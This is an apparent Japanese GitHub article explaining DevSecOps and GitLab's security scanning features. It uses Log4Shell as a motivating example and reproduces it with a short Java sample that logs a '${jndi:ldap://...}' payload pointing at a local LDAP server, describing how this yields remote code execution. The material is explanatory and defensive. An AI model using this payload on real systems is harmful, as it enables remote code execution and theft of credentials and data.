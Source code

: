 # GitLabのDevSecOps

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](./img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見された。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用する。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに`「${jndi:ldap://~}」`という文字列が埋め込むことで攻撃が成立する。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの工数が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](./img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](./img/gitlab_cicd_devsecops.png)
![Alt text](./img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
